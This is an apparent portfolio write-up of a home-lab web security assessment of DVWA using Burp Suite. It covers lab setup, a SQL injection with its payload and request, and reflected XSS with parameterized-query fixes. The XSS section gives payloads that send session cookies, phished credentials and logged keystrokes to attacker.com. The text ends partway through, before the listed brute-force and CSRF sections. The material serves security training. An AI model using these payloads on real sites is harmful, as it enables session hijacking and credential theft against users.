# Web Application Vulnerability Assessment with Burp Suite


**Project Type:** SOC Level 1 Security Assessment  
**Tools Used:** Burp Suite Community Edition, DVWA, Kali Linux, VirtualBox  
**Date:** February 2026  
**Vulnerabilities Found:** 4 Critical/High Severity Issues

---

## 📋 Table of Contents
- [Executive Summary](#executive-summary)
- [Why This Project Matters](#why-this-project-matters)
- [Lab Environment Setup](#lab-environment-setup)
- [Assessment Methodology](#assessment-methodology)
- [Vulnerabilities Discovered](#vulnerabilities-discovered)
  - [1. SQL Injection (Critical)](#1-sql-injection)
  - [2. Cross-Site Scripting - XSS (High)](#2-cross-site-scripting-xss)
  - [3. Brute Force Attack (High)](#3-brute-force-attack)
  - [4. Cross-Site Request Forgery - CSRF (Medium)](#4-cross-site-request-forgery-csrf)
- [Remediation Recommendations](#remediation-recommendations)
- [Skills Demonstrated](#skills-demonstrated)
- [Tools & Technologies](#tools--technologies)
- [Conclusion](#conclusion)

---

## 🎯 Executive Summary

This project demonstrates a **comprehensive web application security assessment** conducted using industry-standard penetration testing tools and methodologies. Acting as a **SOC Level 1 Security Analyst**, I systematically identified, exploited, documented, and provided remediation guidance for **four critical web application vulnerabilities**.

### Key Achievements

✅ **Identified 4 OWASP Top 10 Vulnerabilities** using manual testing and Burp Suite  
✅ **Demonstrated Real-World Impact** through successful exploitation of each vulnerability  
✅ **Analyzed Attack Traffic** using Burp Suite proxy interception and HTTP analysis  
✅ **Documented Professional Findings** with detailed evidence, screenshots, and remediation steps  
✅ **Applied Industry Methodologies** following OWASP testing standards

### Vulnerabilities Identified

| # | Vulnerability | Severity | CVSS Score | Impact |
|---|---------------|----------|------------|--------|
| 1 | **SQL Injection** | 🔴 Critical | 9.8 | Full database compromise, authentication bypass |
| 2 | **Cross-Site Scripting (XSS)** | 🟠 High | 7.3 | Session hijacking, credential theft |
| 3 | **Brute Force Attack** | 🟠 High | 7.5 | Account takeover, password exposure |
| 4 | **CSRF** | 🟡 Medium | 6.5 | Unauthorized account actions |

---

## 💡 Why This Project Matters

### Demonstrating SOC L1 Analyst Competencies

As organizations face increasing cyber threats, **SOC Level 1 Analysts** play a critical role in identifying and documenting security vulnerabilities before attackers can exploit them. This project showcases:

1. **Practical Security Testing Skills** - Not just theoretical knowledge, but hands-on exploitation
2. **Industry-Standard Tool Proficiency** - Burp Suite is the #1 tool used by professional penetration testers
3. **Professional Documentation** - Security findings mean nothing without clear, actionable documentation
4. **Real-World Methodology** - Following OWASP guidelines used by security professionals worldwide

### Business Value

Security vulnerabilities like those identified in this assessment cost organizations millions annually through:
- Data breaches and regulatory fines
- Loss of customer trust
- System downtime and remediation costs
- Legal liability

**Early detection and remediation** of these vulnerabilities provides immediate ROI.

---

## 🛠️ Lab Environment Setup

### Network Architecture
```
┌─────────────────────────────────────────────────────────────┐
│                    Windows 10 Host (Wi-Fi)                  │
│                                                             │
│  ┌──────────────────────┐      ┌──────────────────────┐     │
│  │   Firefox Browser    │◄─────┤   Burp Suite Proxy   │     │
│  │  Proxy: 127.0.0.1    │      │   Port: 8080         │     │
│  └──────────────────────┘      └──────────┬───────────┘     │
│                                            │                │
└────────────────────────────────────────────┼─────────────── ┘
                                             │
                          Bridged Network    │
                                             ▼
                     ┌───────────────────────────────────┐
                     │    Kali Linux VM (10.83.80.7)     │
                     │                                   │
                     │  ┌─────────────────────────────┐  │
                     │  │  Apache Web Server          │  │
                     │  │  MySQL Database             │  │
                     │  │  DVWA Application           │  │
                     │  └─────────────────────────────┘  │
                     └───────────────────────────────────┘
```

### Environment Specifications

| Component | Details |
|-----------|---------|
| **Host OS** | Windows 10 Professional |
| **Virtualization** | Oracle VirtualBox |
| **Attack Platform** | Kali Linux 2026-W06 |
| **Network Mode** | Bridged Adapter (virtio-net) |
| **Target Application** | DVWA (Damn Vulnerable Web Application) |
| **Proxy Tool** | Burp Suite Community Edition v2026.1.3 |
| **Web Browser** | Mozilla Firefox 147.0 |

---

### Detailed Setup Process

#### **Phase 1: Kali Linux Configuration**

**1.1 Virtual Machine Network Setup**

Configured VirtualBox for optimal network performance:
- **Network Adapter:** Bridged Adapter
- **Adapter Type:** Paravirtualized Network (virtio-net)
- **IP Address:** 10.83.80.7/24


*Kali Linux successfully configured with IP address 10.83.80.7 on eth0 interface*

**1.2 Install DVWA and Dependencies**
```bash
# Update package repository
sudo apt update

# Install DVWA (includes Apache, PHP, MySQL)
sudo apt install dvwa -y

# Start required services
sudo systemctl start apache2
sudo systemctl start mysql

# Verify Apache is running
sudo systemctl status apache2
```


*Apache2 service running successfully - Status shows "active (running)" with process details*


*MariaDB database service active - Status message: "Taking your SQL requests now..."*

**1.3 Database Configuration**

Created dedicated database and user for DVWA:
```sql
sudo mysql -u root

CREATE DATABASE dvwa;
CREATE USER 'dvwa'@'localhost' IDENTIFIED BY 'p@ssw0rd';
GRANT ALL PRIVILEGES ON dvwa.* TO 'dvwa'@'localhost';
FLUSH PRIVILEGES;
EXIT;
```


*All SQL commands executed successfully with "Query OK" responses - Database and user created*

**1.4 Web Server Configuration**
```bash
# Create symbolic link for web access
sudo ln -s /usr/share/dvwa /var/www/html/dvwa
```

---

#### **Phase 2: DVWA Initialization**

**2.1 Access Setup Interface**

Navigated to: `http://10.83.80.7/dvwa/setup.php`


*DVWA setup page showing database configuration check and system requirements validation*

**2.2 Initialize Database**

Clicked **"Create / Reset Database"** button to populate database tables.


*DVWA login interface after successful database initialization*

**2.3 Authentication**

Logged in with default credentials:
- **Username:** `admin`
- **Password:** `password`


*DVWA main dashboard displaying all vulnerability testing modules and welcome message*

**2.4 Security Level Configuration**

Set security level to **"Low"** to demonstrate exploitability of common vulnerabilities:

DVWA Security → Select "Low" → Click "Submit"


*Security level successfully configured to "Low" with confirmation message displayed*

---

#### **Phase 3: Burp Suite Setup & Configuration**

**3.1 Installation**

1. Downloaded Burp Suite Community Edition from PortSwigger
2. Installed on Windows 10 host with default settings
3. Launched application:
   - Selected **"Temporary Project"**
   - Used **"Burp Defaults"** configuration
   - Clicked **"Start Burp"**


*Burp Suite interface showing Dashboard with live passive crawl task ready for traffic analysis*

**3.2 Browser Proxy Configuration**

Configured Firefox to route traffic through Burp Suite:

**Settings → Network Settings → Manual Proxy Configuration:**
- HTTP Proxy: `127.0.0.1`
- Port: `8080`
- ✅ Also use this proxy for HTTPS


*Firefox network settings configured to route all HTTP/HTTPS traffic through Burp Suite proxy*

**3.3 Traffic Interception Verification**

Accessed DVWA through Firefox - Burp Suite successfully intercepted the request:


*Burp Suite Proxy tab showing intercepted HTTP request to DVWA with full headers visible*

Turned intercept **OFF** to allow normal traffic flow while logging all requests:


*DVWA login page successfully loaded through Burp proxy with traffic being logged*

---

## 🔍 Assessment Methodology

### Testing Framework

This security assessment follows the **OWASP Web Security Testing Guide (WSTG)** methodology:
```
1. Information Gathering
   └─► Map application structure and functionality

2. Configuration Testing
   └─► Identify security misconfigurations

3. Authentication Testing
   └─► Test for weak authentication mechanisms

4. Input Validation Testing
   └─► Test for injection vulnerabilities

5. Traffic Analysis
   └─► Intercept and analyze HTTP communications

6. Documentation
   └─► Record findings with evidence and remediation
```

### Testing Approach

**Manual Testing** - All vulnerabilities identified through manual testing (not automated scanning)  
**Proof of Concept** - Each vulnerability exploited to demonstrate real-world impact  
**Traffic Analysis** - Burp Suite used to analyze request/response patterns  
**Evidence Collection** - Screenshots captured at each critical step

### Scope

**In-Scope Vulnerabilities:**
- SQL Injection (SQLi)
- Cross-Site Scripting (XSS)
- Authentication Bypass
- Cross-Site Request Forgery (CSRF)
- Sensitive Data Exposure

**Testing Constraints:**
- Security level set to "Low" for educational demonstration
- Testing conducted in isolated lab environment
- No testing against production systems

---

## 🔓 Vulnerabilities Discovered

### 1. SQL Injection

**Vulnerability ID:** DVWA-SQLi-001  
**Severity:** 🔴 **CRITICAL**  
**CVSS v3.1 Score:** 9.8 (Critical)  
**CWE:** CWE-89 (Improper Neutralization of Special Elements used in SQL Command)  
**OWASP Top 10:** A03:2021 – Injection

---

#### 1.1 Vulnerability Description

SQL Injection (SQLi) occurs when an application fails to properly sanitize user input before incorporating it into SQL queries. This allows attackers to inject malicious SQL commands that can:

- Bypass authentication mechanisms
- Extract sensitive data from databases
- Modify or delete database records
- Execute administrative operations on the database
- In some cases, execute operating system commands

#### 1.2 Affected Component

**Location:** SQL Injection vulnerability module  
**Endpoint:** `/dvwa/vulnerabilities/sqli/`  
**Parameter:** `id` (User ID input field)  
**Method:** GET

#### 1.3 Exploitation Process

**Step 1: Normal Functionality Test**

Input: `1`


*Normal query with input "1" returns single user record (ID: 1, admin, admin)*

**Expected Behavior:**
```
ID: 1
First name: admin
Surname: admin
```

The application correctly returns a single user record.

---

**Step 2: Malicious Payload Injection**

Input: `1' OR '1'='1`


*SQL injection payload successfully bypassed query logic - All 5 users extracted from database*

**Result:** The application returned **ALL user records** from the database:
```
ID: 1' OR '1'='1
First name: admin
Surname: admin

ID: 1' OR '1'='1
First name: Gordon
Surname: Brown

ID: 1' OR '1'='1
First name: Hack
Surname: Me

ID: 1' OR '1'='1
First name: Pablo
Surname: Picasso

ID: 1' OR '1'='1
First name: Bob
Surname: Smith
```

#### 1.4 Technical Analysis

**Burp Suite Traffic Analysis:**


*Burp Suite captured malicious request showing URL-encoded SQL injection payload in HTTP GET request*

**HTTP Request:**
```http
GET /dvwa/vulnerabilities/sqli/?id=1%27+OR+%271%27%3D%271&Submit=Submit HTTP/1.1
Host: 10.83.80.7
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:147.0) Gecko/20100101 Firefox/147.0
Accept: text/html,application/xhtml+xml,application/xml
Cookie: security=low; PHPSESSID=cb6c2c8008bacc26e10a8795c2efd72
```

**Vulnerable SQL Query (Backend):**
```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' OR '1'='1'
```

**Why This Works:**

The injected payload `1' OR '1'='1` modifies the SQL query logic:

1. Original query structure: `WHERE user_id = '$id'`
2. With injection: `WHERE user_id = '1' OR '1'='1'`
3. Since `'1'='1'` is always TRUE, the query becomes: `WHERE user_id = '1' OR TRUE`
4. This returns ALL records from the users table

#### 1.5 Business Impact

| Impact Category | Description | Severity |
|----------------|-------------|----------|
| **Confidentiality** | Complete database exposure including passwords, PII, financial data | Critical |
| **Integrity** | Attackers can INSERT, UPDATE, DELETE records | Critical |
| **Availability** | Database can be dropped, causing service disruption | High |
| **Authentication** | Login forms can be bypassed with `' OR '1'='1` | Critical |
| **Authorization** | Privilege escalation to administrator accounts | Critical |

**Real-World Consequences:**
- **Data Breach:** Exposure of customer data, leading to GDPR/CCPA violations
- **Financial Loss:** Fines can reach €20 million or 4% of annual revenue (GDPR)
- **Reputation Damage:** Loss of customer trust
- **System Compromise:** Potential for complete server takeover via `xp_cmdshell` or `LOAD_FILE()`

#### 1.6 Remediation

**Priority:** 🔴 **IMMEDIATE - Critical vulnerability requiring urgent fix**

**Solution 1: Parameterized Queries (Recommended)**

❌ **Vulnerable Code:**
```php
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";
$result = mysqli_query($conn, $query);
```

✅ **Secure Code (MySQLi Prepared Statements):**
```php
$stmt = $conn->prepare("SELECT first_name, last_name FROM users WHERE user_id = ?");
$stmt->bind_param("i", $id);
$stmt->execute();
$result = $stmt->get_result();
```

✅ **Secure Code (PDO Prepared Statements):**
```php
$stmt = $pdo->prepare("SELECT first_name, last_name FROM users WHERE user_id = :id");
$stmt->execute(['id' => $id]);
$result = $stmt->fetchAll();
```

**Solution 2: Input Validation**
```php
// Type casting for integer inputs
$id = (int)$_GET['id'];

// OR using filter_var
$id = filter_var($_GET['id'], FILTER_VALIDATE_INT);
if ($id === false) {
    die("Invalid user ID");
}
```

**Solution 3: Least Privilege Database Access**

- Create application-specific database user
- Grant only SELECT permissions (no DROP, DELETE, or UPDATE)
- Use separate credentials for read-only vs. write operations

**Solution 4: Web Application Firewall (WAF)**

Deploy ModSecurity or similar WAF with OWASP Core Rule Set to detect and block SQL injection attempts.

---

### 2. Cross-Site Scripting (XSS)

**Vulnerability ID:** DVWA-XSS-001  
**Severity:** 🟠 **HIGH**  
**CVSS v3.1 Score:** 7.3 (High)  
**CWE:** CWE-79 (Improper Neutralization of Input During Web Page Generation)  
**OWASP Top 10:** A03:2021 – Injection

---

#### 2.1 Vulnerability Description

Cross-Site Scripting (XSS) vulnerabilities occur when an application includes untrusted data in web pages without proper validation or escaping. This allows attackers to inject malicious scripts that execute in victims' browsers.

**Types of XSS:**
- **Reflected XSS** - Malicious script reflected off web server (tested in this assessment)
- **Stored XSS** - Malicious script permanently stored in database
- **DOM-based XSS** - Vulnerability exists in client-side code

#### 2.2 Affected Component

**Location:** Reflected Cross-Site Scripting module  
**Endpoint:** `/dvwa/vulnerabilities/xss_r/`  
**Parameter:** `name` (Text input field)  
**Method:** GET

#### 2.3 Exploitation Process

**Step 1: Normal Functionality Test**

Input: `Test User`


*Normal input "Test User" safely echoed back without script execution*

**Expected Behavior:**
```
Hello Test User
```

The application echoes back the user input without any script execution.

---

**Step 2: Malicious JavaScript Injection**

Input: `<script>alert('XSS Vulnerability Found!')</script>`


*JavaScript payload successfully executed - Alert popup confirms XSS vulnerability*

**Result:** JavaScript alert box displayed, proving arbitrary code execution in the browser.

#### 2.4 Technical Analysis

**Burp Suite Traffic Analysis:**


*Burp Suite showing URL-encoded XSS payload in GET request with full HTTP headers*

**HTTP Request:**
```http
GET /dvwa/vulnerabilities/xss_r/?name=%3Cscript%3Ealert%28%27XSS+Vulnerability+Found%21%27%29%3C%2Fscript%3E HTTP/1.1
Host: 10.83.80.7
```

**HTTP Response (Vulnerable Code):**
```html
<pre>Hello <script>alert('XSS Vulnerability Found!')</script></pre>
```

**Vulnerability Root Cause:**

The application directly reflects user input into HTML without:
- Output encoding/escaping
- Content Security Policy (CSP)
- Input validation

#### 2.5 Real-World Attack Scenarios

**Attack 1: Session Cookie Theft**

Payload:
```javascript
<script>
document.location='http://attacker.com/steal.php?cookie='+document.cookie;
</script>
```

**Impact:** Attacker obtains victim's session cookie and can impersonate them.

---

**Attack 2: Credential Harvesting**

Payload:
```javascript
<script>
document.body.innerHTML='<h1>Session Expired</h1><form action="http://attacker.com/phish.php"><input name="user" placeholder="Username"><input name="pass" type="password" placeholder="Password"><input type="submit" value="Login"></form>';
</script>
```

**Impact:** Fake login form captures credentials.

---

**Attack 3: Keylogger Injection**

Payload:
```javascript
<script>
document.addEventListener('keypress', function(e) {
  fetch('http://attacker.com/log.php?key='+e.key);
});
</script>
```

**Impact:** Every keystroke sent to attacker's server.

#### 2.6 Business Impact

| Impact Category | Description | Severity |
|----------------|-------------|----------|
| **Session Hijacking** | Steal authentication tokens | High |
| **Credential Theft** | Capture usernames/passwords via fake forms | High |
| **Malware Distribution** | Redirect to exploit kits | Medium |
